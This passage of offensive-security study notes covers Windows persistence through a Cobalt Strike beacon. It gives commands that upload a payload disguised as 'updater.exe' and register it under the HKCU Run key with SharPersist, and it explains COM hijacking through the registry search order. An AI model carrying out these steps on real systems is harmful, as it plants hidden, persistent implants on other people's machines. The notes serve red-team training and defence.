 ```
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

> **Note**: In `System` context this tecnhique does not work.

## HKCU / HKLM Registry Autoruns

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

First we need to generate a Windows EXE payload and upload it to the target.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

## COM Hijacking

Component Object Model (COM) is a technology built within the Windows operating system that allows intercommunication between software components of different languages.

COMs are identified with a classID `CLSID` and each component exposes functionality via one or more interfaces `IIDs`. 
A COM Class `COCLASS` is an implementation of one or more interfaces, represented by their `CLSID` or a programmatic identifier `ProgID`.

COM Classes and interfaces are defined in the registry `HKEY_CLASSES_ROOT\CLSID` and `HKEY_CLASSES_ROOT\Interface`.

An in-processs server allows the specified DLL to be loaded into the process of the calling application. `InProcServer32` registers a 32-bit in-process server.

The `ThreadingModel` can be `Apartment` (Single-Threaded), `Free`(Multi-Threaded), `Both` (Single or Multi) or `Neutral` (Thread Neutral).

It is possible to find `LocalServer32` wich provides a path to an EXE file.

`OleView .NET` is a tool that allows us to find and inspect COM components.

* [https://github.com/tyranid/oleviewdotnet](https://github.com/tyranid/oleviewdotnet)


**COM Hijacking** is possible when we are able to modify these entries to point to a different DLL. It is important to notice that when an application attempts to locate an object, there is a search order that it goes through. First search `HKEY_CURRENT_USER (HKCU)` and after that `HKEY_LOCAL_MACHINE (HKLM)`.
